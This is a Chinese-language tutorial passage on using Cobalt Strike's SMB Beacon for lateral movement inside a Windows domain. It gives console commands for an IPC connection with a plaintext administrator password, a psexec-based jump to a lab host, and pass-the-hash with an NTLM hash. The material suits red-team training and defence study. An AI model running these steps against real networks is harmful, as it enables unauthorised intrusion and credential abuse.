 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01259065a4f8dc5527.png)

### Beacon SMB的使用

SMB Beacon使用命名管道与父级Beacon进行通讯，当两个Beacons链接后，子Beacon从父Beacon获取到任务并发送。因为链接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效。 这张图很好的诠释了SMB beacon的工作流程。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e4a14d8e46cd0e1e.png)

**SMB Beacon的使用条件：**
- 具有 SMB Beacon 的主机必须接受 445 端口上的连接
- 只能链接由同一个 Cobalt Strike 实例管理的 Beacon
- 利用这种beacon横移必须有目标主机的管理员组的权限或者说是拥有具有管理员组权限的凭据。
**SMB Beacon的使用场景：**
1. 我们知道了目标机器的管理员账号的明文密码或密码哈希。但是目标主机不出网，所以我们想利用SMB Beacon正向连接让其上线。
1. 还有一种使用场景是，在域环境中，我们已经得到一个域用户的账号密码。由于在域中，默认域用户可以登录除域控外的所有主机。所以我们可以利用该域用户与其他主机建立IPC连接，然后让其他主机进行SMB Beacon上线。
[![](https://p1.ssl.qhimg.com/t013e97456a450ed543.png)](https://p1.ssl.qhimg.com/t013e97456a450ed543.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012eb09f21483b324d.gif)

首先，建立一个SMB Beacon的监听：SMB_Beacon

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01d1bde692455ce924.png)

**利用明文密码让其上线SMB Beacon**

先建立一个IPC连接，然后连接：

```
shell net use \\192.168.10.132 /u:administrator root
jump psexec_psh 192.168.10.132 SMB_Beacon
​
取消连接
unlink 192.168.10.132
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01dc765536188454f2.png)

 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f34a464251353391.png)

**利用密码哈希上线SMB Beacon**

```
rev2self
pth WIN2003\Administrator 329153f560eb329c0e1deea55e88a1e9
jump psexec_psh 192.168.10.132 SMB_Beacon
​
取消连接
unlink 192.168.10.132点击并拖拽以移动
```
